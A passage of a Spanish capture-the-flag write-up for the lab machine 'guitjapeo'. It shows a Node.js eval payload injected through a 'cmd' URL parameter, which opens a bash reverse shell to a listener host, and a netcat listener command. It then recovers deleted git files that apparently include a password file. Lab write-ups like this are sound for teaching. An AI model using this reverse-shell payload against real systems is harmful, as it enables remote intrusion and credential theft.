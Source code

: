 Como vemos, en su panel hay un nuevo boton para limpiar usuarios, el cual nos manda a `https://guitjapeo.thl/api/command/?cmd=clearUsers()`, al parecer está ejecutando codigo javascript, por lo que enviaremos una reverse shell con este payload:

```css
eval(`require('child_process').exec('bash -c "bash -i >& /dev/tcp/192.168.152.216/443 0>&1"')`);
```

Solo que en url encode.

(Claramente antes hay que escuchar con netcat: `sudo nc -nlvp 443`)

# ESCALADA DE PRIVILEGIOS

### Lenam

Estando dentro seremos el usuario Lenam.

Si revisamos un poco, veremos que la web tiene un .git, esto significa que pueden haber commits o archivos borrados que todavia se pueden restaurar. Para ver eso ejecutamos en el mismo directorio esto:

```css
git status
```

```abap
lenam@guitjapeo:~/.local/bin/web$ git status
On branch master
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
	new file:   archivo.zip
	new file:   password.txt

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	modified:   administrador.js
	deleted:    archivo.zip
	modified:   index.js
	deleted:    password.txt

Untracked files:
  (use "git add <file>..." to include in what will be committed)
	%26
	%261
	isolated-data/

lenam@guitjapeo:~/.local/bin/web$ 
```

Como vemos hay dos archivos borrados, uno es "archivo.zip" y el otro es "password.txt", por lo que los restauramos de la siguiente manera:

```css
git restore archivo.zip && git restore password.txt
```
